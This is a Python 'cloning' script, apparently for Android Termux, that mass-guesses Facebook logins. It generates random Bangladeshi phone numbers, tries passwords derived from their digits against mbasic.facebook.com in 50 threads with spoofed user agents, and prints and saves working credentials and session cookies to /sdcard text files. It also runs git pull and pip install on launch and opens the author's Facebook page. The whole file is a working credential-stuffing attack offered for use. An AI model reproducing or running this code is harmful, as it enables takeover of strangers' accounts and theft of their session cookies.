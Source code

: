 # Facebook: NIMAY KINGKING
# Github: NIMAY KINGKING
import os,sys,time,json,random,re,string,platform,base64,uuid
os.system("git pull")
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')
    
#####APK#####
            
            
 
class jalan:
    def __init__(self, z):
        for e in z + "\n":
            sys.stdout.write(e)
            sys.stdout.flush()
            time.sleep(0.009)
            
P = '\x1b[1;97m'
M = '\x1b[1;91m'
H = '\x1b[1;92m'
K = '\x1b[1;93m'
B = '\x1b[1;94m'
U = '\x1b[1;95m' 
O = '\x1b[1;96m'
N = '\x1b[0m'    
Z = "\033[1;30m"
sir = '\033[41m\x1b[1;97m'
x = '\33[m' # DEFAULT
m = '\x1b[1;91m' #RED +
k = '\033[93m' # KUNING +
xr = '\x1b[1;92m' # HIJAU +
hh = '\033[32m' # HIJAU -
u = '\033[95m' # UNGU
kk = '\033[33m' # KUNING -
b = '\33[1;96m' # BIRU -
p = '\x1b[0;34m' # BIRU +
asu = random.choice([m,k,xr,u,b])
my_color = [
 P, M, H, K, B, U, O, N]
warna = random.choice(my_color)
now = datetime.now()
dt_string = now.strftime("%H:%M")
current = datetime.now()
ta = current.year
bu = current.month
ha = current.day
today = date.today()
os.system('xdg-open https://www.facebook.com/nimayroy110/')
logo =("""\033[0;92m
\033[1;32m╔══════════════════════════════════════════════════════════╗\033[1;93m
\033[1;32m║	         \033[1;93m ─━<🌺 HELLO EVERYONE 🌺>━─\033[1;32m	           ║
\033[1;32m╔══════════════════════════════════════════════════════════╗
\033[1;32m║\033[0;92m:##    ## #### ##     ##    ###    ##    ##    ##    ## #### ##    ##  ######      
\033[1;32m║\033[0;97m... ###   ##  ##  ###   ###   ## ##    ##  ##     ##   ##   ##  ###   ## ##    ##     
\033[1;32m║\033[0;91m::: ####  ##  ##  #### ####  ##   ##    ####      ##  ##    ##  ####  ## ##           
\033[1;32m║\033[0;94m::: ## ## ##  ##  ## ### ## ##     ##    ##       #####     ##  ## ## ## ##   ####    
\033[1;32m║\033[0;93m::: ##  ####  ##  ##     ## #########    ##       ##  ##    ##  ##  #### ##    ##     
\033[1;32m║\033[0;95m::: ##   ###  ##  ##     ## ##     ##    ##       ##   ##   ##  ##   ### ##    ##     
\033[1;32m║\x1b[38;5;208m::: ##    ## #### ##     ## ##     ##    ##       ##    ## #### ##    ##  ######      
\033[1;32m╚══════════════════════════════════════════════════════════╝
\033[1;32m╔══════════════════════════════════╗╔══════════════════════╗
\033[1;32m║NOTE : \033[37;41mTHIS TOOLS IS FREE\033[0;m\033[1;32m         ║║        \x1b[1;91m___T_\033[1;32m         ║
\033[1;33m║══════════════════════════════════║║       \x1b[1;91m| o o |\033[1;32m        ║
\033[1;34m║AUTHOR    : NIMAY KINGKING            ║║       \x1b[1;91m|__-__|\033[1;32m        ║
\033[1;35m║══════════════════════════════════║║       \x1b[1;91m/| []|'\033[1;32m        ║
\033[1;36m║WHATSAPP  : 01885426247           ║║     \x1b[1;91m()/|___|\()\033[1;32m      ║
\033[1;37m║══════════════════════════════════║║        \x1b[1;91m|_|_|\033[1;32m         ║
\033[1;38m║GITHUB    : NIMAY KINGKING           ║║       \x1b[1;91m|_| |_|\033[1;32m        ║
\033[1;39m║══════════════════════════════════║║                      ║
\033[1;31m║SERVER    : DATA :      WORKING and WIFI   ║╚══════════════════════╝
\033[1;32m║══════════════════════════════════════════════════════════╗
\033[1;33m║FACEBOOK LINK : \x1b[1;91hhttps://www.facebook.com/nimayroy110[1;32m║
\033[1;34m║══════════════════════════════════════════════════════════║
\033[1;35m║PAGE: \x1b[1;91https://www.facebook.com/nimayroy110[1;32m ║
\033[1;36m╚══════════════════════════════════════════════════════════╝\033[1;37m""") 
loop = 0
oks = []
cps = []
 
def clear():
    os.system('clear')
    print(logo)
from time import localtime as lt
from os import system as cmd
ltx = int(lt()[3])
if ltx > 12:
    a = ltx-12
    tag = "PM"
else:
    a = ltx
    tag = "AM"
    
    
try:
    print('\n\n\033[1;33mLoading asset files ... \033[0;97m')
    v = 5.2
    update = ('5.2')
    update = ('5.2')
    if str(v) in update:
        os.system('clear')
    else:pass
except:print('\n\033[1;31mNo internet connection ... \033[0;97m')
#global functions
def dynamic(text):
    titik = ['.   ','..  ','... ','.... ']
    for o in titik:
        print('\r'+text+o),
        sys.stdout.flush();time.sleep(1)
 
#User agents
ugen2=[]
ugen=[]
 
for xd in range(10000):
    aa='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['3','4','5','6','7','8','9','10','11','12','13','14','15','16','17'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=(f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}')
    ugen.append(uaku2)
    
# APK CHECK
def xxr():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    print(f' [{xr}^{x}] Example>: {xr}019,017,018,92302,92301,91778{x}')
    print(" ══════════════════════════════════════════")
    rk1 = '0171'
    rk2 = '0172'
    rk3 = '0175'
    rk4 = '017'
    code = random.choice([rk1,rk2,rk3])                      # input(f' [{xr}■{x}] Choose : ')
    os.system('clear')
    print(logo)
    limit = int(input(f'\033[0;97m[{xr}^{x}]\033[0;92m EXAMPLE : \033[0;93m10000, \x1b[38;5;208m20000, \033[0;92m50000 ] \n\033[0;95m═════════════════════════════════════════ \n\033[0;97m[{xr}^{x}] \033[0;92mPUT CLONING LIMIT:\033[0;93m '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    os.system("clear")
    print(logo)
    passx = 0
    HamiiID = []
    print("")
    for bilal in range(passx):
        pww = input(f"[*] Enter Password {bilal+1} : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=50) as manshera:
        clear()
        tl = str(len(user))
        jalan('\033[1;97m====================================================')
        jalan(f'[{xr}^{x}]\x1b[38;5;208m YOUR TOTAL IDS: {xr}'+tl)
        jalan(f'{x}[{xr}^{x}]\033[0;92m PLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        jalan(f'\033[0;97m[{xr}^{x}]\033[0;93m USE YOUR MOBILE DATA ')
        jalan(f'\033[0;97m[{xr}^{x}] \x1b[38;5;208mUse Flight Mode For Speed Up')
        jalan(f'\033[0;97m[{xr}^{x}] \033[0;95mSuper Fast Speed Cloning')
        jalan('\033[1;97m====================================================')
        for love in user:
            pwx = [love[1:]]
            uid = code+love
            for Eman in HamiiID:
                pwx.append(Eman)
                pwx.append(love)
            manshera.submit(rcrack,uid,pwx,tl)
    print(f"\n{x} ══════════════════════════════════════════")
def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://mbasic.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {"authority": 'mbasic.facebook.com',
            "method": 'GET',
            "scheme": 'https',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
            'cache-control': 'max-age=0',
            'sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"',
            'sec-ch-ua-mobile': '?1',
            'sec-ch-ua-platform': '"Android"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'none',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent': pro}
            lo = session.post('https://mbasic.facebook.com/login/device-based/login/async/?refsrc=deprecated&lwv=100',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('\r\r\033[1;32m[NIMAY-OK💚] \033[1;32m'+uid+'\033[1;32m • \033[1;32m' +ps+    '  \n[‎‎🌺]\033[0;93m COOKIE = \033[1;32m'+coki+  '  ''  \033[0;97m')
                cek_apk(session,coki)
                open('/sdcard/NIMAY-OK.txt', 'a').write( uid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                #print('\r\r\33[1;30m[NIMAY-CP] ' +uid+ ' • ' +ps+           '  \33[0;97m')
                open('/sdcard/NIMAY-CP.txt', 'a').write( uid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\r%s{x}[{xr}NIMAY{x}][%s\%s][OK:{xr}%s{x}]'%(H,loop,tl,len(oks))),
        sys.stdout.flush()
    except:
        pass
 
xxr()
 
